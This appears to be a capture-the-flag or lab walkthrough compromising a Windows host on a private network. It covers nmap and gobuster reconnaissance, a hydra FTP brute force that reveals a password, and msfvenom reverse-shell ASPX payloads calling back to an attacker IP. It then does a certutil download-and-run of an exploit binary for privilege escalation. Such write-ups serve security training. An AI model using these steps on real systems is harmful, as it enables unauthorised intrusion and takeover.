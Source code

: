 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/8309287c-1280-4c6c-aab7-4751ac0c2279"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/96c23aba-8922-4021-9daf-b626cd3c91aa)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/d28063e8-0e31-4da3-a932-cad363ed36ba)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.180 -oG allports
```
![image](https://github.com/user-attachments/assets/7e2bca7c-88f6-4548-9b2c-7f3bb158aad3)

```bash
nmap -sCV -p21,80,135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.180 -oN targeted
```
![image](https://github.com/user-attachments/assets/1e8cfde2-0bc6-40e0-b81d-bb7623cdf150)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/f5a410d8-838e-4e26-aaf3-5adee82a12f6)

``CRTL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/1ad23d93-a26a-4787-b8b8-d1a4b15e0d24)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.180/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/05ea476b-4c5b-4d69-a7ce-7100fca16a53)

```bash
whatweb https://192.168.1.180
```
![image](https://github.com/user-attachments/assets/a9485353-0de8-4b79-bd39-468b80a2a6aa)

### **we didn't find anything relevant**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
sudo nmap --script "vuln and safe" -p445 192.168.1.180
```
![image](https://github.com/user-attachments/assets/a10cfba9-81df-4752-8595-0cfb87186bdc)

### **not vulnerable to EternalBlue**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"></picture>RPC Protocol</h2>

```bash
rpcclient -U "" -N 192.168.1.180
srvinfo
querydispinfo
enumdomusers
getdompwinfo
```
![image](https://github.com/user-attachments/assets/c1825bc6-33ed-4720-8da0-ee814e5c3b52)

### **we found nothing**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 21</h2>

### **Brute Force**
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt ftp://192.168.1.180
```
![image](https://github.com/user-attachments/assets/f87eb6f4-5b0e-4b8e-bcba-339876bf1268)

USER:    info
<br>
PASSWD:  PolniyPizdec0211

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

### **FTP Connection**
```bash
ftp 192.168.1.180
```
![image](https://github.com/user-attachments/assets/deac17fa-b655-4e1a-b01d-190d7f24df61)

We already have access via port 21, but in order to gain access to the machine we must upload our malicious file to obtain a more stable connection, remember that we are dealing with a windows machine but we do not know if it is 32 or 64 bits so we will have to create two files and upload them.

Win 64bits
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win64.aspx
```

Win 32bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win32.aspx
```
![image](https://github.com/user-attachments/assets/e91d426c-427f-44ce-b8c1-67f685f5f5cd)
![image](https://github.com/user-attachments/assets/9836bb42-361c-42d0-be6b-95c46d9c0444)

We will now upload our malicious files via ftp service
```bash
put win64.aspx
put win32.aspx
```
![image](https://github.com/user-attachments/assets/64d2625c-224c-4c5f-95de-4206de836e34)

we put ourselves in listening mode through port 443 that we configured in our malicious code and from the web we call our files waiting for a connection.

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/efc26a9b-fd32-4ac2-b3e1-8a3da1957847)
![image](https://github.com/user-attachments/assets/d84867ea-3b47-4c19-b5b5-2bf44b92c01d)
![image](https://github.com/user-attachments/assets/b19ac984-dd3f-4fb8-b752-76716226354e)
![image](https://github.com/user-attachments/assets/23a10d09-1f99-495a-bf64-c07d0fc70a8b)

```bash
whoami
systeminfo
```
![image](https://github.com/user-attachments/assets/33f56c3d-2715-41ac-9784-16838e9dd2b6)

we are looking for possible vulnerabilities that would allow us to elevate privileges

![image](https://github.com/user-attachments/assets/0acbfa09-e55f-4641-b24a-b9f0413c8039)
![image](https://github.com/user-attachments/assets/ba2e0721-98c2-4add-bbdf-f65ad49a4f98)
![image](https://github.com/user-attachments/assets/dd5af650-cea6-4d71-863f-4aec5c2e74fc)
![image](https://github.com/user-attachments/assets/652d3252-9497-4509-a954-d7800711cac4)
![image](https://github.com/user-attachments/assets/d934c91a-9a51-4ee9-a6c2-1c85eb3c8996)
we are looking for
![image](https://github.com/user-attachments/assets/33011923-ceab-430f-bf75-435c7db9d2c6)
![image](https://github.com/user-attachments/assets/28b173c4-5065-4b69-947e-de5e760b4722)
![image](https://github.com/user-attachments/assets/96892089-a286-40dd-8aee-6747d0b77688)
![image](https://github.com/user-attachments/assets/04e15b23-b430-4aba-a767-6b59f34a5f64)
![image](https://github.com/user-attachments/assets/0e805a79-7418-4a3a-b0de-823dd9273236)

we enable a server with python to upload our file
```bash
python3 -m http.server 80
```
![image](https://github.com/user-attachments/assets/45cbc82c-bacb-4e7c-a53e-289d7fb663f5)

```bash
certutil -urlcache -f http://192.168.1.228/vuln.exe vuln.exe
```
![image](https://github.com/user-attachments/assets/4443cf1a-4841-4d11-b08e-7f38a3f492c9)

```bash
vuln.exe
```
![image](https://github.com/user-attachments/assets/0574d4d1-7502-48a4-bf4c-1ea52c8f3948)



